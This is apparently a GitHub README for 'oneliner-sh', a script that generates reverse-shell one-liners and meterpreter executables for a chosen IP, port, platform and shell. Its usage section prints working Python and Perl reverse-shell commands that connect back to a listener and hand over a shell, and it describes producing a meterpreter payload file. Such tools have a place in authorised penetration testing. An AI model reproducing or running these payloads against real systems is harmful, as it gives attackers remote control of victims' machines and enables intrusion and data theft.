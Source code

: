 # oneliner-sh

oneliner is a tool that gives a list of compatible reverse-shell-string oneliners

Usage:
 	in_shell.sh [-i IP] [-p PORT] [-A PLATFORM] [-s SHELL_TYPE] [-d DELIM] [-qfr] 

 option : description - Default

 -i : The IP that the reverse shell will connect to. - 192.168.1.66 (an 'ip addr' IP except localhost)
 -p : The TCP port that the reverse shell will connect to. - 4444
 -A : [lin|win|mac] The OS that the reverse shell command will run on. - lin
 -s : [cmd.exe|/bin/sh| etc] The shell you are claiming. Quote for shell arguments (-s "/bin/bash -i") - /bin/sh
 -q : Quiet mode. Doesn't show the instructions, just the stuff (USE IT). - Disabled
 -f : Create standalone files at /tmp (meterpreter, python rev_shell, etc) - Disabled (makes the script slow)
 -d : [#|@| etc] Set 'cut' delimiter. It MUST be one char for use with UNIX cut - #
 -r : Makes the output Readable for humans - Disabled
 -h : This help message 
 

 Example :
 	in_shell.sh -i 192.168.1.2 -p 444 -A win -s cmd.exe -d# -q -f -r

 ==============================================================================
 Instructions
 Pipe this command with 'grep' and 'cut' to get reverse shell one-liners and payload file locations.
 Example:
 	To get a python reverse shell one-liner for linux /bin/sh shell type:

 $ in_shell.sh -i 192.168.1.2 -p 444 -A lin -s /bin/sh -q | grep python | cut -d# -f4
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh"]);'

 	To get a meterpreter reverse TCP executable for windows type (it is a file so enable -f):

 $ in_shell.sh -i 192.168.1.2 -p 444 -A win -q -f | grep meterpreter | cut -d# -f4
 /tmp/meterpreter

 	Defaults are also sane:

 $ in_shell.sh -A win | grep perl |cut -d# -f4
 perl -MIO::Socket -e '$c=new IO::Socket::INET(PeerAddr => "192.168.1.66:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

 
 ============================================================================== 
 		***Happy Hunting*** 
